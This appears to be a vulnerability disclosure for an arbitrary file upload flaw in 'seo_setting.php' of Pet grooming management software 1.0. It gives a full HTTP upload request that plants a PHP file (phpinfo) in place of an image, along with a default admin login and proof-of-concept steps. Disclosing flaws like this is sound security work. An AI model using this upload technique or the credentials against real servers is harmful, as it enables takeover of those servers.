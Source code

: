 

# Pet grooming management software  - 'seo_setting.php' Arbitrary File Upload

#### Exploit Title: Pet grooming management software - Arbitrary File Upload

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: [https://www.sourcecodester.com](https://www.sourcecodester.com/)

#### Software Link:https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

#### Version: Pet grooming management software 1.0

#### Tested on: Windows 10, Apache ,Mysql

#### Description

The pet grooming management software has a vulnerability in uploading arbitrary files. In the 'seo_setting.php'  file, due to insufficient filtering of file suffixes, attackers can exploit this vulnerability to gain server privileges by uploading malicious files.

#### Payload used:

```
POST /admin/seo_setting.php HTTP/1.1
Host: 192.168.67.28:8021
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.28:8021
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynrYRiaBMmUAHonyv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.67.28:8021/admin/manage_website.php
Cookie: PHPSESSID=nn7i1gq9g3c5789ch9hgs6nogg
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3656

------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="deduct"

1
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="title"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="currency_symbol"

₹
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_website_image"

Pets_Logo.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="website_image"; filename="111.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_favicon"

favicon_pet.png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="favicon"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_qr"

dumm_qr(1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="qr"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="footer"

Pet Grooming Billing Software
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="term"

<h4>1. <strong>Appointments &amp; Timings</strong></h4><p>Clients must arrive on time for scheduled appointments.</p><p>A delay of more than 15 minutes may result in rescheduling.</p><p>Walk-ins are accepted based on availability.</p><h4>2<strong>. Health &amp; Vaccinations</strong></h4><p>Pets must be up to date with vaccinations (especially Rabies).</p><p>We reserve the right to refuse service if a pet shows signs of illness, infection, or aggressive behavior.</p><p>The client must inform us of any medical conditions, allergies, or behavioral issues.</p><h4>3. <strong>Grooming Safety</strong></h4><p>We use safe, pet-friendly grooming products and tools.</p><p>In case of extreme matting, hair may need to be shaved to avoid injury.</p><p>We are not liable for any pre-existing conditions or issues arising from matting, skin problems, or aggressive behavior.</p><h4>4. <strong>Emergency Care</strong></h4><p>In the event of an injury or health concern during grooming, we will attempt to contact the owner immediately.</p><p>If needed, the pet may be taken to the nearest veterinary clinic at the owner's expense.</p><h4>5. <strong>Cancellations &amp; No-Shows</strong></h4><p>Please provide at least 24 hours’ notice for cancellations.</p><p>No-shows or last-minute cancellations may incur a fee.</p><h4>6. <strong>Photographs</strong></h4><p>We may take photos of pets after grooming for promotional use on our website or social media unless the client requests otherwise.</p><h4>7. <strong>Payment Terms</strong></h4><p>Full payment is required upon completion of grooming.</p><p>Prices may vary depending on breed, size, coat condition, and service duration.</p>
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="old_sign"

images (1).png
------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="sign"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarynrYRiaBMmUAHonyv
Content-Disposition: form-data; name="btn_web"


------WebKitFormBoundarynrYRiaBMmUAHonyv--

```

#### Proof of Concept

1、Log in to the system using the default password mdkhairnar92@gmail.com: admin

2、Request the /admin/seo_setting.php interface to modify the website_image to the PHP malicious file we are about to upload.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpayloadseo.png)

4、After sending the request packet, the file can be accessed on the page, and the PHP file has been parsed, displaying information related to PHPINfo.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadlocation.png)

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/uploadpageseo.png)

5、Source code related to vulnerabilities.

![image](https://github.com/joinia/webray.com.cn/blob/main/Pet-grooming-management-software/images/code-seosetting.png)
